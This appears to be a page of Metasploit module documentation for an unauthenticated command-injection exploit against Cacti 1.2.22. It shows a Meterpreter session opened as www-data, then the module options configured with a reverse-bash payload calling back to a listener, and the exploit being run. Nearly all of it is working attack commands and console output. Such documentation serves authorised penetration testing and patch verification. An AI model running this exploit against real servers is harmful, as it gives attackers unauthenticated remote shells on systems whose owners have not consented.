 ```
[+] Found exploitable local_data_id 180 for host_id 1
[*] Sending stage (1017704 bytes) to 10.18.0.3
[*] Command Stager progress - 100.00% done (773/773 bytes)
[*] Meterpreter session 1 opened (192.168.91.195:4444 -> 10.18.0.3:45322) at 2022-12-22 16:43:59 +0200

meterpreter > getuid
Server username: www-data
```

### Cacti 1.2.22 - Unix In-Memory - HOST_ID and LOCAL_DATA_ID set (immediate exploitation)
```
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > options 

Module options (exploit/linux/http/cacti_unauthenticated_cmd_injection):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   HOST_ID             1                no        The host_id value to use. By default, the module will try to bruteforce this.
   LOCAL_DATA_ID       182              no        The local_data_id value to use. By default, the module will try to bruteforce this.
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS              192.168.91.195   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT               8080             yes       The target port (TCP)
   SRVHOST             192.168.91.195   yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all add
                                                  resses.
   SRVPORT             9090             yes       The local port to listen on.
   SSL                 false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                              no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI           /                yes       The base path to Cacti
   URIPATH                              no        The URI to use for this exploit (default is random)
   VHOST                                no        HTTP server virtual host
   X_FORWARDED_FOR_IP  127.0.0.1        yes       The IP to use in the X-Forwared-For HTTP header. This should be resolvable to a hostname in the poller table.


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.91.195   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > run

```